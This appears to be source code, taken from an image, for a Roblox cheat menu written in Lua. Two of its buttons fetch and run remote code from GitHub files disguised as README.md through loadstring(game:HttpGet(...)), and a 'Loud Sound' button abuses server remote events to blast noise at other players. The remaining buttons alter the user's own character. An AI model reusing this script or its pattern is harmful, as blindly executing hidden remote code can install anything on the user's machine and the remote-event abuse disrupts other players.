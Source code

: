     F:Button(
    "No Name",
    function()
        loadstring(game:HttpGet("https://raw.githubusercontent.com/WspNas/wwdghjhgfds/main/README.md"))()
    end
    )
    
    F:Button(
    "Fire Hands",
    function()
        Fire.Parent = game.Players.LocalPlayer.Character.RightHand
    Fire.Heat = 5
    Fire.Size = 2
    end
    )
    
    F:Button(
    "Kill Your Self",
    function()
       game.Players.LocalPlayer.Character.Humanoid.Health = 0 
    end
    )
    
     F:Button(
    "Join Low Server",
    function()
        loadstring(game:HttpGet("https://raw.githubusercontent.com/WspNas/fgf/main/README.md"))()
    end
    )
    
     F:Button(
    "Loud Sound",
    function()
        local args = {
            [1] = workspace:FindFirstChild(game.Players.LocalPlayer.Name .. "'s Car")
        }
        
        game:GetService("ReplicatedStorage").TireSmoke:FireServer(unpack(args))
        
        local args = {
            [1] = game.Workspace[game.Players.LocalPlayer.Name .. "'s Car"],
            [2] = 1000,
            [3] = 1000,
            [4] = false,
            [5] = 1000,
            [6] = 1000,
            [7] = 0,
            [8] = 1000,
            [9] = false
        }
        
        game:GetService("ReplicatedStorage").CarSound:FireServer(unpack(args))
    end
    )
    